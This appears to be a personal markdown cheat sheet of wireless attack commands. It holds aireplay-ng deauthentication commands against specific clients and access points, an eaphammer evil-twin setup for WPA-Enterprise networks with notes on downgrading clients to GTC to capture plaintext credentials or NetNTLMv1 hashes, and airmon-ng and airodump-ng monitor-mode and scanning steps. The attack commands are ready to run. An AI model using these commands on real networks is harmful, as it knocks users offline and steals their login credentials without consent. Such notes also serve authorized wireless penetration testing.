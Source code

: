 # 802.11
## Deauth
```bash
# send unicast deauth frame against a specific station (client) 
aireplay-ng -0 1 -a "CE:9D:A2:E2:9B:40" -c "10:F0:05:16:F6:9E" wlp1s0f0u8

# send broadcast deauth frame impersonating an AP
aireplay-ng -0 1 -a "CE:9D:A2:E2:9B:40" wlp1s0f0u8
```


## eaphammer WPA-E ET
```bash
eaphammer --cert-wizard
# make sure all is checked out

# working. if certificate validation 
# is not configured on supplicant -
# supplicant autoconnects and gets 
# successfully downgraded to GTC if MSCHAPv2
# is not explicitly specified
./eaphammer --bssid 1C:7E:E5:97:79:B1 \
        --essid Example \
        --channel 2 \
        --interface wlan0 \
        --auth wpa-eap \
        --creds
```
IMPACT:
- inner GTC      : plaintext credentials if 
- inner MSCHAPv2 : NetNTLMv1 hash

## Useful
set a specific channel to a wireless interface:
```bash
iwconfig wlp1s0f0u8 channel 5
```
place a wireless card into monitor:
```bash
airmon-ng start wlan0

### ALTERNATIVELY:
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```


## aurodump-ng
- use "a" key to collapse sections
- if doesn't work try replugging the adapter, It should work right after replugging by just running airodump-ng
```bash
### SECTIONS
## APs:
# BSSID   - AP MAC address
# ESSID   - AP readable identitier
# CH      - AP channel (frequency range)

## STATIONS:
# BSSID   - MAC of an AP the station is connected to
# Probes  - ESSIDs this client has probed 
# STATION - MAC of a station


###############
### GENERAL ###
###############
# scan near APs
airodump-ng wlan0
# scan specific AP
airodump-ng --bssid CE:9D:A2:E2:9B:40 wlan0
```
